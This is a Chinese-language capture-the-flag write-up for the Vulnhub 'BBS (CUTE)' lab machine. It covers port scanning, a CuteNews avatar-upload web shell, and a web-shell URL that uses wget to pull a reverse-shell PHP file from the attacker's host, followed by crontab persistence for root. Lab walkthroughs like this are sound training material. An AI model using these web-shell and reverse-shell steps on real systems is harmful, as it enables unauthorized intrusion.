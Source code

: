 ```yaml
---

title: Vulnhub 567 BBS (CUTE)  1.0.2

---
```


考点：任意文件上传,定时任务

靶机链接：<https://www.vulnhub.com/entry/bbs-cute-102,567/>

## 环境配置

| 名称       | IP        |
| ---------- | --------- |
| Kali Linux | 10.0.2.15 |
| BBS (CUTE) | 10.0.2.11 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.11
$ sudo nmap -v -A -p- $rip
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 04:d0:6e:c4:ba:4a:31:5a:6f:b3:ee:b8:1b:ed:5a:b7 (RSA)
|   256 24:b3:df:01:0b:ca:c2:ab:2e:e9:49:b0:58:08:6a:fa (ECDSA)
|_  256 6a:c4:35:6a:7a:1e:7e:51:85:5b:81:5c:7c:74:49:84 (ED25519)
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
|_http-server-header: Apache/2.4.38 (Debian)
88/tcp  open  http     nginx 1.14.2
|_http-title: 404 Not Found
|_http-server-header: nginx/1.14.2
110/tcp open  pop3     Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) UTF8(USER) TOP STLS IMPLEMENTATION(Courier Mail Server) PIPELINING USER UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee2 40c8 66d1 b327 71e6 085a f50b 7e28
|_SHA-1: 28a3 acc0 86a7 cd64 8f09 78fa 1792 7032 0ecc b154
995/tcp open  ssl/pop3 Courier pop3d
|_pop3-capabilities: LOGIN-DELAY(10) TOP UTF8(USER) IMPLEMENTATION(Courier Mail Server) PIPELINING USER UIDL
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee2 40c8 66d1 b327 71e6 085a f50b 7e28
|_SHA-1: 28a3 acc0 86a7 cd64 8f09 78fa 1792 7032 0ecc b154

```

### WEB测试

#### 端口88

未发现有用信息

#### 端口80

[dirb](https://www.iihack.com/pages/tools/dirb.html)和[dirsearch](https://www.iihack.com/pages/tools/dirsearch.html)都发现了index.php

![](https://static.iihack.com/vulnhub/567/1.PNG)

### 漏洞发现

![](https://static.iihack.com/vulnhub/567/2.PNG)

查看利用脚本，发现CuteNews目录需要手工去除

![](https://static.iihack.com/vulnhub/567/3.PNG)

使用新建的用户`ZOu0fykHPn`登录

## 获得权限

### 靶机测试

![](https://static.iihack.com/vulnhub/567/4.PNG)

头像处是上传的shell

访问<http://10.0.2.11/uploads/avatar_ZOu0fykHPn_ZOu0fykHPn.php>文件存在

![](https://static.iihack.com/vulnhub/567/5.PNG)

下载r444.php

```http
http://10.0.2.11/uploads/avatar_ZOu0fykHPn_ZOu0fykHPn.php?cmd=wget http://10.0.2.15/reverse/r444.php
```

访问<http://10.0.2.11/uploads/r444.php>

反弹shell成功

![](https://static.iihack.com/vulnhub/567/6.PNG)

## 提权

将反弹shell写入crontab

![](https://static.iihack.com/vulnhub/567/7.PNG)

![](https://static.iihack.com/vulnhub/567/8.PNG)
